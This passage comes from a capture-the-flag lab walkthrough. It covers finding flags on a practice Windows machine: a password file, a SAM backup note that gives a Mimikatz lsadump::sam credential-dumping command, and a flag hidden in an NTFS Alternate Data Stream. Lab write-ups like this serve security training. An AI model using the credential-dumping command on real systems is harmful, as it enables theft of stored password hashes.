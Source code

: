 **🎯 FLAG 10 FOUND**: FLAG{M**********2} - In password file

### FLAG 11: SAM Backup Information

**Location**: sam_backup_info.txt from Backup share  
**Difficulty**: Hard

```bash
┌──(kali㉿kali)-[~]
└─$ cat sam_backup_info.txt
SAM Database Backup (for Mimikatz practice)
Created: 2025-09-05
Flag: FLAG{G**************5}
Use: mimikatz # lsadump::sam /system:system.hiv /sam:sam.hiv
```

**🎯 FLAG 11 FOUND**: FLAG{G**********5} - SAM backup info

### FLAG 12: Alternate Data Stream Discovery

**Location**: Hidden ADS in normal.txt  
**Difficulty**: Hard

After gaining shell access:

```powershell
# From Windows shell (RDP or Evil-WinRM)
cd C:\Public
dir /r

# Output shows:
#                    21 normal.txt
#                    23 normal.txt:hidden:$DATA

# Read the ADS
Get-Content normal.txt -Stream hidden
# Or
more < normal.txt:hidden
```

**Output**:
```
FLAG{L************4}
```

**🎯 FLAG 12 FOUND**: FLAG{L**********4} - In Alternate Data Stream

**Why ADS Matters**: Alternate Data Streams can hide:
- Malware
- Sensitive data
- Backdoor configurations
- Forensic artifacts

---

## Phase 6: Privilege Escalation
